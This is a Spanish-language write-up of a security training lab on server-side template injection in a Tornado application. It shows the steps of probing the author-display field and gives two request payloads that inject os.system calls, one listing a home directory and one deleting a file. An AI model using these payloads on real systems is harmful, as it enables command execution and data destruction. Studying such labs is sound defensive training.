








# Lab: Basic server-side template injection (code context)

En el sitio web encontramos un apartado donde podemos elegir que nombre mostrar en los posts que o comentarios que realizamos.


Al interceptar encontraremos un apartado donde se esta enviando






Al enviar el payload ``tenemos un error



Luego agregamos `}}` y al enviar con este payload este envía correctamente.



Observamos que efectivamente el payload hace la peticón de `7*7` dando un 49.


Con ayuda de este recurso podemos inyectar un payload que nos permita ejecutar comandos.

- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#tornado

```c

blog-post-author-display=user.name}}{{os.system('ls+/home/carlos')}}&csrf=wCPr7rs2Vl0bJZ2Wib8SgMfoGCfaLDkC
```




Ahora podemos eliminar el recurso que nos indican para completar el laboratorio

```c
blog-post-author-display=user.name}}{{os.system('rm+/home/carlos/morale.txt')}}&csrf=wCPr7rs2Vl0bJZ2Wib8SgMfoGCfaLDkC
```



